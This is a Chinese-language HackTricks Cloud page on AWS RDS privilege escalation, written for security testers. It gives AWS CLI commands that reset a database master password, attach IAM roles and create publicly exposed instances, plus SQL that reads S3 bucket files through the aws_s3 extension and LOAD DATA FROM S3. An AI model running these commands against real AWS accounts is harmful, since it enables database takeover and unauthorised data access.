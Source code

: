 # AWS - RDS Privesc

<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

支持HackTricks的其他方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[NFT](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>

## RDS - 关系型数据库服务

有关RDS的更多信息，请查看：

{% content-ref url="../aws-services/aws-relational-database-rds-enum.md" %}
[aws-relational-database-rds-enum.md](../aws-services/aws-relational-database-rds-enum.md)
{% endcontent-ref %}

### `rds:ModifyDBInstance`

拥有此权限的攻击者可以**修改主用户的密码**以及数据库内的登录信息：

```bash
# Get the DB username, db name and address
aws rds describe-db-instances

# Modify the password and wait a couple of minutes
aws rds modify-db-instance \
--db-instance-identifier <db-id> \
--master-user-password 'Llaody2f6.123' \
--apply-immediately

# In case of postgres
psql postgresql://<username>:<pass>@<rds-dns>:5432/<db-name>
```

{% hint style="warning" %}
您需要能够**联系数据库**（它们通常只能从内部网络访问）。
{% endhint %}

**潜在影响：** 在数据库中找到敏感信息。

### rds-db:connect

根据[**文档**](https://docs.aws.amazon.com/AmazonRDS/latest/UserGuide/UsingWithRDS.IAMDBAuth.IAMPolicy.html)，拥有此权限的用户可以连接到DB实例。

### 滥用RDS角色IAM权限

#### Postgresql（Aurora）

{% hint style="success" %}
如果运行\*\*`SELECT datname FROM pg_database;`**，找到一个名为**`rdsadmin`**的数据库，您就知道自己在**AWS postgresql数据库\*\*内。
{% endhint %}

首先，您可以检查此数据库是否已用于访问任何其他AWS服务。您可以通过查看已安装的扩展来进行检查：

```sql
SELECT * FROM pg_extension;
```

如果你发现类似 **`aws_s3`** 这样的内容，你可以假设这个数据库对 S3 有**某种访问权限**（还有其他扩展，比如 **`aws_ml`** 和 **`aws_lambda`**）。

另外，如果你有权限运行 **`aws rds describe-db-clusters`**，你可以在字段 **`AssociatedRoles`** 中看到是否有**附加的 IAM 角色**与该**集群**相关联。如果有的话，你可以假设该数据库已经**准备好访问其他 AWS 服务**。根据**角色的名称**（或者如果你可以获取**角色的权限**），你可以**猜测**数据库具有哪些额外的访问权限。

现在，要**读取存储桶中的文件**，你需要知道完整的路径。你可以使用以下命令读取：

```sql
// Create table
CREATE TABLE ttemp (col TEXT);

// Create s3 uri
SELECT aws_commons.create_s3_uri(
'test1234567890678', // Name of the bucket
'data.csv',          // Name of the file
'eu-west-1'          //region of the bucket
) AS s3_uri \gset

// Load file contents in table
SELECT aws_s3.table_import_from_s3('ttemp', '', '(format text)',:'s3_uri');

// Get info
SELECT * from ttemp;

// Delete table
DROP TABLE ttemp;
```

如果您拥有**原始的AWS凭据**，您也可以使用它们来访问S3数据：

```sql
SELECT aws_s3.table_import_from_s3(
't', '', '(format csv)',
:'s3_uri',
aws_commons.create_aws_credentials('sample_access_key', 'sample_secret_key', '')
);
```

{% hint style="info" %}
Postgresql **无需更改任何参数组变量**即可访问S3。
{% endhint %}

#### Mysql (Aurora)

{% hint style="success" %}
在mysql中，如果运行查询\*\*`SELECT User, Host FROM mysql.user;`**并且存在名为**`rdsadmin`**的用户，则可以假定您在**AWS RDS mysql数据库\*\*中。
{% endhint %}

在mysql中运行\*\*`show variables;`**，如果变量如**`aws_default_s3_role`**、**`aurora_load_from_s3_role`**、**`aurora_select_into_s3_role`\*\*等具有值，则可以假定数据库已准备好访问S3数据。

此外，如果您有权限运行\*\*`aws rds describe-db-clusters`**，您可以检查集群是否有任何**关联角色\*\*，这通常意味着可以访问AWS服务。

现在，要**读取存储桶中的文件**，您需要知道完整路径。您可以使用以下命令读取：

```sql
CREATE TABLE ttemp (col TEXT);
LOAD DATA FROM S3 's3://mybucket/data.txt' INTO TABLE ttemp(col);
SELECT * FROM ttemp;
DROP TABLE ttemp;
```

### `rds:AddRoleToDBCluster`, `iam:PassRole`

拥有`rds:AddRoleToDBCluster`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

```bash
aws add-role-to-db-cluster --db-cluster-identifier <value> --role-arn <value>
```

**潜在影响**：访问RDS实例中的敏感数据或未经授权地修改数据。\
请注意，一些数据库需要额外的配置，比如Mysql，需要在参数组中指定角色ARN。

### `rds:CreateDBInstance`

仅凭此权限，攻击者就可以在已经存在并附加了IAM角色的**集群内创建新实例**。他将无法更改主用户密码，但可能会将新数据库实例暴露在互联网上：

```bash
aws --region eu-west-1 --profile none-priv rds create-db-instance \
--db-instance-identifier mydbinstance2 \
--db-instance-class db.t3.medium \
--engine aurora-postgresql \
--db-cluster-identifier database-1 \
--db-security-groups "string" \
--publicly-accessible
```

### `rds:CreateDBInstance`, `iam:PassRole`

{% hint style="info" %}
TODO: 测试
{% endhint %}

拥有`rds:CreateDBInstance`和`iam:PassRole`权限的攻击者可以**创建一个附加指定角色的新RDS实例**。攻击者随后可能**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
附加角色/实例配置文件的一些要求（来自[**这里**](https://docs.aws.amazon.com/cli/latest/reference/rds/create-db-instance.html))：

* 该配置文件必须存在于您的账户中。
* 该配置文件必须具有Amazon EC2有权限承担的IAM角色。
* 实例配置文件名称和关联的IAM角色名称必须以前缀`AWSRDSCustom`开头。
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds create-db-instance --db-instance-identifier malicious-instance --db-instance-class db.t2.micro --engine mysql --allocated-storage 20 --master-username admin --master-user-password mypassword --db-name mydatabase --vapc-security-group-ids sg-12345678 --db-subnet-group-name mydbsubnetgroup --enable-iam-database-authentication --custom-iam-instance-profile arn:aws:iam::123456789012:role/MyRDSEnabledRole
```
{% endcode %}

**潜在影响**：访问RDS实例中的敏感数据或对数据进行未经授权的修改。

### `rds:AddRoleToDBInstance`, `iam:PassRole`

拥有`rds:AddRoleToDBInstance`和`iam:PassRole`权限的攻击者可以**将指定角色添加到现有的RDS实例**。这可能允许攻击者**访问敏感数据**或修改实例中的数据。

{% hint style="warning" %}
此操作需要DB实例不在集群中
{% endhint %}

{% code overflow="wrap" %}
```bash
aws rds add-role-to-db-instance --db-instance-identifier target-instance --role-arn arn:aws:iam::123456789012:role/MyRDSEnabledRole --feature-name <feat-name>
```
{% endcode %}

**潜在影响**：访问 RDS 实例中的敏感数据或未经授权修改数据。

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)！
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们独家[**NFT**](https://opensea.io/collection/the-peass-family)收藏品
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live) 上**关注**我们。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来**分享您的黑客技巧**。

</details>
